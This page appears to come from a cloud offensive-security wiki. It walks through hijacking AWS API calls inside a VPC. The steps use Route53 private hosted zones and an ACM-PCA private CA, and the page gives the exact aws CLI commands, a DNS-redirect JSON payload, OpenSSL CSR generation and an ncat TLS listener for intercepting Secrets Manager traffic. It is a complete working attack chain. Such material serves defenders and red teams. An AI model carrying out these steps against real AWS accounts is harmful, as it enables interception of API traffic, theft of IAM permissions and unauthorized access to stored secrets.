 ```yaml
---
author: Patryk Bogusz
title: AWS API Call Hijacking via ACM-PCA
description: By modifying the route53 entries and utilizing the acm-pca private CA one can hijack the calls to AWS API inside the AWS VPC
---
```


Original Research: [niebardzo](https://twitter.com/niebardzo2) - [Hijacking AWS API Calls](https://niebardzo.github.io/2022-03-11-aws-hijacking-route53/) 

**Required IAM Permission**: [route53:CreateHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/create-hosted-zone.html), [route53:ChangeResourceRecordSets](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/change-resource-record-sets.html), [acm-pca:IssueCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/issue-certificate.html), [acm-pca:GetCertificate](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/get-certificate.html)  
**Recommended but not required**: [route53:GetHostedZone](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/get-hosted-zone.html), [route53:ListHostedZones](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/route53/list-hosted-zones.html), [acm-pca:ListCertificateAuthorities](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/acm-pca/list-certificate-authorities.html), [ec2:DescribeVpcs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/describe-vpcs.html) (may be useful for enumeration, but are not requires as the info can be enumerated in other ways)  

!!! Note
    To perform this attack the target account must already have an [AWS Certificate Manager Private Certificate Authority](https://aws.amazon.com/certificate-manager/private-certificate-authority/) (AWS-PCA) setup in the account, and EC2 instances in the VPC(s) must have already imported the certificates to trust it. With this infrastructure in place, the following attack can be performed to intercept AWS API traffic.

Assuming there is an AWS VPC with multiple cloud-native applications talking to each other and to AWS API. Since the communication between the microservices is often TLS encrypted there must be a private CA to issue the valid certificates for those services. If ACM-PCA is used for that and the adversary manages to get access to control both route53 and acm-pca private CA with the minimum set of permissions described above, it can hijack the application calls to AWS API taking over their IAM permissions.

This is possible because:  

* AWS SDKs do not have [Certificate Pinning](https://www.digicert.com/blog/certificate-pinning-what-is-certificate-pinning)
* Route53 allows creating Private Hosted Zone and DNS records for AWS APIs domain names
* Private CA in ACM-PCA cannot be restricted to signing only certificates for specific Common Names


For example, Secrets Manager in us-east-1 could be re-routed by an adversary setting the secretsmanager.us-east-1.amazonaws.com domain to an IP controlled by the adversary. The following creates the private hosted zone for secretsmanager.us-east-1.amazonaws.com:
```
aws route53 create-hosted-zone --name secretsmanager.us-east-1.amazonaws.com --caller-reference sm4 --hosted-zone-config PrivateZone=true --vpc VPCRegion=us-east-1,VPCId=<VPCId>
```

Then set the A record for secretsmanager.us-east-1.amazonaws.com in this private hosted zone. Use the following POST body payload - mitm.json:

```
{
  "Comment": "<anything>",
  "Changes": [{
    "Action": "UPSERT",
    "ResourceRecordSet": {
      "Name": "secretsmanager.us-east-1.amazonaws.com",
      "Type": "A",
      "TTL": 0,
      "ResourceRecords": [{"Value": "<ip_of_adversary_instance_in_the_VPC>"}]
    }
  }]
}
```

One set TTL to 0 to avoid DNS caching. Then, the advisory uses this payload to change-resource-record-sets:
```
aws route53 change-resource-record-sets --hosted-zone-id <id_returned_by_previous_API_call> --change-batch file://mitm.json
```

Now, the adversary must generate the CSR and send it for signing to the ACM-PCA, CSR and private key can be generated with OpenSSL:
```
openssl req -new -newkey rsa:2048 -nodes -keyout your_domain.key -out your_domain.csr
```

For CN (Common Name), one must provide secretsmanager.us-east-1.amazonaws.com. Then one sends the CSR to acm-pca to issue the certificate:
```
aws acm-pca issue-certificate --certificate-authority-arn "<arn_of_ca_used_within_vpc>" --csr file://your_domain.csr --signing-algorithm SHA256WITHRSA --validity Value=365,Type="DAYS" --idempotency-token 1234
```

It returns the signed certificate ARN in the response. The next call is to fetch the certificate.

```
aws acm-pca get-certificate --certificate-arn "<cert_arn_from_previous_response>" --certificate-authority-arn "<arn_of_ca_used_within_vpc>"
```

Once one got the signed certificate on the disk as cert.crt, the adversary starts the listener or 443/TCP and sniffs the calls to the secretsmanager.us-east-1.amazonaws.com
```
sudo ncat --listen -p 443 --ssl --ssl-cert cert.crt --ssl-key your_domain.key -v
```

The calls can be then forwarded to the Secrets Manager VPCE to for example GetSecretValue and get unauthorized access to the data. The same action can be done with any AWS API called from the VPC - S3, KMS, etc.
